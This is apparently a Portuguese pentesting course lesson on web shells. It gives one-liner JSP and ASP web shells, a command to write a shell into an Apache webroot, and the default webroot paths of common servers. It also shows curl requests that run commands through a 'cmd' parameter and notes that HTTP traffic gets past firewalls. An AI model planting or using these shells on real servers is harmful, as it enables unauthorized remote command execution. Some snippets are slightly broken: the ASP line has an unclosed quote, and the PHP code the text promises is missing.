

# Web shell

Por último mas não menos importante, temos o web shell, que normalmente é um script (PHP, ASPX, JSP, etc) que executa nossos comandos pela requisição HTTP com parâmetros como (incluindo mas não se limitando) GET ou POST e imprime a saída na página web.

## Criando um web shell
Vamos usar o PHP para criar o shell, principalmente por ser a linguagem mais comum usada por servidores. A lógica do script é levar nosso comando ao servidor com o parâmetro GET, executar o comando e imprimir a saída na página web.

Um script php costuma ser um script one-liner, que pode ser memorizado e usado em qualquer lugar e ambiente.

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
```asp
<% eval request("cmd) %>
```
## Upando o shell
Upar um shell, significa enviar o script para o servidor. Isso pode ser feito de várias formas, como por exemplo, através de um formulário de upload, ou até mesmo por um arquivo de texto. 

De qualquer forma, se não tivermos nenhuma vulnerabilidade de upload descoberta mas tivermos execução remota de código, podemos criar um arquivo no *webroot* do servidor com o shell e acessá-lo pelo navegador.

`echo script.php > /var/www/html/script.php`

supondo um shell escrtio em PHP e um servidor Apache.

O shell provavelmente vai para o webroot do servidor, que é o diretório onde os arquivos do site são guardados.

Depois de injetar o arquivo, podemos acessá-lo através do navegador indo até o caminho onde ele foi guardado e abrindo o arquivo PHP.

Se não soubermos onde o shell foi guardado, temos 2 opções:

1. tentar adivinhar o caminho, dependendo do servidor. Normalmente (eu digo normalmente por que usuário raramente mexem na configuração padrão do servidor por acharem muito complicado) existe um caminho padrão para o webroot, como `/var/www/html` para servidores Apache, `usr/local/nginx/html` para NGINX, `C:/inetpub/wwwroot` para IIS, `C:/XAMPP` para XAMPP. Esses são os principais servidores web, e cada um tem seu próprio caminho para o webroot, existem outros e todos os diretórios webroot podem ser encontrados na documentação do servidor.

2. Usar o *[gobuster](../7_enum-web.md)* para procurar por arquivos no servidor.

Depois de abrir o script injetado, podemos enviar comandos para o servidor através do parâmetro GET `cmd`.

`http://http://SERVER_IP:PORT/shell.php?cmd=id`
ou
`curl http://SERVER_IP:PORT/shell.php?cmd=id`

Esse comando retorna o ID do usuário que está rodando o servidor.

Uma vantagem do web shell é que ele é muito mais fácil de usar do que um shell reverso, já que não precisamos configurar um listener, e podemos acessá-lo de qualquer lugar, desde que tenhamos acesso à internet. Além disso ele passa direto por firewalls, já que a comunicação é feita por HTTP.

[próxima aula](../9_priv-esc.md)